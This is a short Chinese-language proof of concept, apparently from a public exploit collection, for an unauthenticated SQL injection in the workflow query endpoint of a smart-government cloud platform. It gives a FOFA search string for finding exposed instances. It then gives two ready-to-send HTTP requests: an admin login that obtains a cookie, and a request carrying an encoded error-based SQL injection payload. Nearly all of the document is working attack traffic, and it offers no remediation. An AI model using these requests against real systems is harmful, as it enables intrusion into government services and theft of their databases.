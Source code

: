 # 数字通云平台智慧政务workflow存在SQL注入漏洞

数字通云平台 智慧政务 /workflow/query/index 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa

```java
body="assets/8cca19ff/css/bootstrap-yii.css"
```

## poc

获取cookie

```javascript
POST /portal/default/login HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0

userID=admin&flag=rone
```

携带cookie进行注入

```javascript
GET /workflow/query/index?WfRtApplication%5Bselect_user%5D=1%20AND%20%28SELECT%202%2A%28IF%28%28SELECT%20%2A%20FROM%20%28SELECT%20CONCAT%280x71786b7a71%2C%28SELECT%20%28ELT%285761=5761%2C1%29%29%29%2C0x7162717871%2C0x78%29%29s%29%2C%208446744073709551610%2C%208446744073709551610%29%29%29 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Cookie: your-cookie
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: */*
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409181346234.png)